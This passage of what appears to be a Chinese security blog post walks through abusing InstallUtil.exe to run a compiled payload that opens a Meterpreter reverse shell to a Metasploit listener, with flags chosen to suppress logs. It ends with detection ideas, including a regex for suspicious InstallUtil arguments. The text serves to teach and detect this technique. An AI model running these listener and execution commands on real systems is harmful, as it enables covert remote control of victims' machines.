 ![编译payload](https://img-blog.csdnimg.cn/20200413152034249.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 3.配置攻击机监听
在攻击机上使用Metasploit配置反弹Shell监听：

```bash
msf5>use exploit/multi/handler
msf5 exploit(multi/handler)>set PAYLOAD windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler)>set LHOST 192.168.126.146
msf5 exploit(multi/handler)>set LPORT 4444
msf5 exploit(multi/handler)>set AutoRunScript migrate -f
msf5 exploit(multi/handler)>exploit
```

- **参数说明**：
  - `PAYLOAD`：使用`windows/meterpreter/reverse_tcp`生成反弹Shell。
  - `LHOST`和`LPORT`：指定攻击机的IP和端口。
  - `AutoRunScript migrate -f`：自动将Meterpreter会话迁移到其他进程（如`explorer.exe`），增强隐蔽性。

![监听](https://img-blog.csdnimg.cn/20200413152209214.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

#### 4.执行Payload
在靶机上使用`InstallUtil.exe`执行编译好的Payload：

```cmd
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U Micropoor.exe
```

- **参数说明**：
  - `/logfile=`：不生成日志文件。
  - `/LogToConsole=false`：禁用控制台输出，减少痕迹。
  - `/U`：触发卸载操作，调用`[RunInstaller(true)]`修饰的类的`Uninstall`方法。

#### 5.反弹Shell
执行后，靶机连接到攻击机的Metasploit监听端口，生成Meterpreter会话。攻击者可通过Meterpreter执行后续操作，如提权、持久化或横向移动。

![执行payload](https://img-blog.csdnimg.cn/20200413152353294.png)

## 测试留痕

![日志留痕](https://img-blog.csdnimg.cn/20200413152656624.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MzM0NDY0,size_16,color_FFFFFF,t_70)

## 检测规则/思路

### 检测方法
1. **进程监控**：
   - 检测`InstallUtil.exe`的异常执行，特别是非标准路径或带有可疑参数（如`/U`、`/logfile=`）。
   - 检查父进程（如`cmd.exe`、`powershell.exe`）和子进程的上下文。
2. **命令行分析**：
   - 使用正则表达式匹配可疑参数：
     ```regex
     InstallUtil\.exe.*(/U|/logfile=|/LogToConsole=false).*\.exe
     ```
3. **网络流量**：
   - 检测`InstallUtil.exe`发起的非预期网络连接，尤其是到外部IP的TCP会话。
4. **文件监控**：
   - 检测临时目录或用户目录下的新.NET二进制文件，结合静态分析（如反编译）。
5. **行为分析**：
   - 检测`InstallUtil.exe`加载非标准DLL或调用内存分配函数（如`VirtualAlloc`）。

